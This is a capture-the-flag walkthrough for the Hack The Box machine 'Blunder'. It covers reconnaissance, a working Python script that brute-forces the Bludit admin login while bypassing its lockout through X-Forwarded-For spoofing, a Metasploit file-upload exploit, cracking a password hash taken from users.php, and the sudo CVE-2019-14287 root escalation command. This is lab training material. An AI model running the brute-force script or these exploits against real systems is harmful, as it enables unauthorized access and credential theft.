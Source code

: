 # Blunder
![alt text](https://www.hackthebox.eu/storage/avatars/6437ea67350beceeb5c313f386bd1abe_thumb.png)   
Hack the Box, Blunder   
Easy, Linux, 20 Points

# Reconnaisance
  - Nmap

    ```bash
    nmap -A -T5 -oN nmap.txt -vv 10.10.10.191

    # Nmap 7.60 scan initiated Wed Jun  3 23:28:58 2020 as: nmap -A -T5 -oN nmap.txt -vv 10.10.10.191
    Increasing send delay for 10.10.10.191 from 0 to 5 due to 11 out of 20 dropped probes since last increase.
    Nmap scan report for 10.10.10.191
    Host is up, received syn-ack (0.21s latency).
    Scanned at 2020-06-03 23:28:58 +08 for 187s
    Not shown: 998 filtered ports
    Reason: 998 no-responses
    PORT   STATE  SERVICE REASON       VERSION
    21/tcp closed ftp     conn-refused
    80/tcp open   http    syn-ack      Apache httpd 2.4.41 ((Ubuntu))
    |_http-generator: Blunder
    | http-methods: 
    |_  Supported Methods: POST
    |_http-title: Blunder | A blunder of interesting facts
    
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Jun  3 23:32:05 2020 -- 1 IP address (1 host up) scanned in 186.94 seconds

    ```
# Website Enum
  - Gobuster
  
    ```
    gobuster -u http://10.10.10.191/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt' -x php,html,txt
    /admin
    /todo.txt
    ```
    Note Found in /todo.txt
    ```
    -Update the CMS
    -Turn off FTP - DONE
    -Remove old users - DONE
    -Inform fergus that the new blog needs images - PENDING
    ```
    From the note, we have user 'fergus' mentioned.
    Login page found in /admin
    Generate Password wordlist from the website using cewl
    ```bash
    cewl -d 10 -m 8 -w wordlist http://10.10.10.191
    ```
    bruteforce the login using this [script](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) as reference
    here is my working script
    ```python
    #!/bin/python
    
    import re
    import requests
    #import http.client 
    host = 'http://10.10.10.191'
    login_url = host + '/admin/'
    username = 'fergus'
    wordlist = []
    
    file = open('wordlist','r')
    for word in file:
        wordlist.append(word)
    
    
    for password in wordlist:
        session = requests.Session()
        login_page = session.get(login_url)
        try:
            csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
        except:
            csrf_token = None
        print('[*] Trying: {p}'.format(p = password))
        #http.client._is_legal_header_name = re.compile(rb'[^\s][^:\r\n]*').fullmatch
        headers = {
            'X-Forwarded-For': password.strip(),
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }
    
        data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password.strip(),
            'save': ''
        }
    
        login_result = session.post(login_url, headers = headers, data = data, allow_redirects = True)
    
        #print(login_result.text)
        if '/admin/dashboard' in login_result.text:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
    ```



# User Access

to gain user access, we need to exploit bludit's arbitrary file upload vulnerability.
here i'm using metasploit, but it can also be done by using the php exploit.
here is the [link](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec) to the rapid7 website regarding the module that will be used.

![alt text](https://i.imgur.com/X2hdtiF.png)
after getting shell as www-data, we can try to enumerate the website deployment directory to find the password hash of the user 'hugo'.

Inside 
    ```
    /var/www/bludit-3.10.0a/bl-content/databases    
    ```
we can find "users.php" that contains the hash of user 'hugo'

![alt text](https://i.imgur.com/cFUhSOs.png)

we can try to analyze the hash in this [website](https://www.tunnelsup.com/hash-analyzer/) and turns out that the hash is actually SHA1. Then we can try to crack it online. i found this [website](https://md5decrypt.net/en/Sha1/) worked.

after getting the password, We can su to hugo and get the user flag inside hugo's homme directory.

![alt text](https://i.imgur.com/LxyFvDM.png)

# Privilege Escalation

Since we have the password of hugo already, we can try to execute 
    ``` 
    $ sudo -l
    ```
this will return the sudo privilege of the user 'hugo'

    
    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash
    

From the result above, we can see that this machine may vulnerable to the famous vulnerability sudo that can help user escalate privilege by passing unisgned user id. You can read the details [here](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)

we can exploit it with a simple command. Since the sudo can work with bash, so we can try to execute
    ```
    $ sudo -u#-1 /bin/bash
    ```
from that simple command we can directly get a root shell   
![alt text](https://i.imgur.com/I8r0HzY.png)

